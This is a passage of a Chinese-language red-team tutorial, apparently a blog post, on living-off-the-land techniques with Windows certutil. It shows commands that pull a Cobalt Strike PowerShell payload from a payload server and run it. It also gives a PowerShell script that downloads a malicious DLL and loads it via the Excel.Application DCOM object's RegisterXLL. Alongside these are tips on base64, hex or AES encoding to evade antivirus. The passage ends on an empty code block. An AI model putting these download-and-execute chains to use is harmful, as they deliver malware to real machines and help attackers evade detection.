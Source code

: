 缓存目录位置：%USERPROFILE%AppDataLocalLowMicrosoftCryptnetUrlCacheContent

```
certutil  -urlcache   -f  http://192.168.50.146:80/download/file.txt
```

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDAW6XHZS2SARQDt6icUbdglicibLoPAZ887iczqVftsF4GfalV29e3qQZdQsc6EK6aJxwvJo8tJLakGwg/640?wx_fmt=png)

配合 powershell 利用;

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDAW6XHZS2SARQDt6icUbdglicyMiaSs7ISw7cZQPQJKOmAnZDGuwfKQWApmH8nVW2OciaJS8iaB3ZNCVpA/640?wx_fmt=png)

cobalt strike 生成一个 ps1 的恶意脚本并放在我们的 payload 下发服务器中

```
PS C:\Users\（123223Li）> certutil -urlcache -split -f http://192.168.50.146:80/download/file123 1.ps1****  联机  ****  0000  ...  0de3CertUtil: -URLCache 命令成功完成。PS C:\Users\（123223Li）> .\1.ps1
```

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDAW6XHZS2SARQDt6icUbdglicglwB537kl8L2FYx3PefPMRBkOwgdMiak6X8XuWjOYnTeyLq2OJmLDRQ/640?wx_fmt=png)

当然我们也可以在传输的过程中采用 base64 或 16 进制进行传输然后采用 powershell 解码 base64 或 16 进制去执行恶意代码，这样能保证传输不让查杀，也可以采用 aes 加密等等，不过 key 的交互得处理一下

利用链：powershell 调用 certutil 下载然后调用 Dcom 组件执行恶意代码，麻烦＝隐蔽哈哈哈

这里演示的是调用 Excel.Application 这个 dcom 组件，别的可利用的 com 对象可以看我的另一篇关于 dcom 横向的那个文章。

代码我做成来 ps1 并放在了 github 上，方便远程调用

```
https://github.com/dnsil/certuil-offer-Dcom.ps1
```

cobalt strike 生成一个恶意的 dll（不讨论免杀）并放在我们的 playload 下发服务器中

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDAW6XHZS2SARQDt6icUbdglicqyCmASqRI6FE7EccK0ict2gM4BWicInAyqibBEjx1ibEBp6xZqAYWOPdBg/640?wx_fmt=png)

加载我们的利用脚本，可以远程加载。这里演示本地加载;

```
param(     $path,     $u,     $filename           )    certutil.exe -urlcache -split -f $u  $path $filename  $excel = [activator]::CreateInstance([type]::GetTypeFromProgID("Excel.Application")) $excel.RegisterXLL($path)
```

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDAW6XHZS2SARQDt6icUbdglic9MU4oicA0nMaTIfzNOpnh9nyqQ2ribXW5n55SZ5mbafzmTmBZv06a3Wg/640?wx_fmt=png)

还有一个利用下载劫持 com 的 sct 的批处理文件

```
```
